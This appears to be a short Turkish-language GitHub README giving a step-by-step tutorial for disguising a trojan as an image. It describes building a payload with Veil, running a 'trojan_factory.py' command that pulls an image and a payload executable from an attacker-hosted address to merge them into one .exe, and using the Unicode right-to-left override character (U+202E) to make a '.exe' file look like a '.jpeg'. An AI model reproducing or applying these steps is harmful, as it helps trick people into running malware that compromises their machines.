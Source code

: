# Trojan ile Görsel Birleştirme

#### 1. İlk olarak görselimizi (.jpeg) seçip google üzerinden uzantısını ```.ico```'ya çeviriyoruz 
#### 2. ```Veil``` kullanarak trojan'i oluşturuyoruz
#### 3. İndirdiğimiz ```.ico``` uzantılı görsel ile trojan'i aynı dosya içine atıyoruz
#### 4. Dosya içine girip ```python3 trojan_factory.py -f http://192.168.123.456/backdoors/andorid.jpeg -e http://192.168.123.456/backdoors/mynewpayload.exe -o /opt/trojanfactory/newtest.exe ; http://192.168.123.456/backdoors/android.ico``` çalıştırıyoruz

* -f: .jpeg dosyasının konumu
* -e: trojan'in konumu
* -o: .ico'nun konumu 
---
# Trojan Uzantısını Değiştirme

#### 1. ```apt-get install gnome-characters``` karakter paketini indiriyoruz
#### 2. İndirdiğimiz framework'ü açıyoruz ve arama yerine ```right-to-right``` yazıp çıkan şeyi kopyalıyoruz
#### 3. ```.exe``` dosyamızın sonunda ```gepj.exe``` yazıyoruz
#### 3. ```gepj.exe``` kısımını seçip ```ctrl+v``` yapıyoruz ve dosya uzantısı ```.jpeg``` olarak gözüküyor

### ```right-to-left``` characters kısmında yoksa google'a ```unicode-table``` yazıp çıkan siteden kopyalabiliriz ```U+202E```
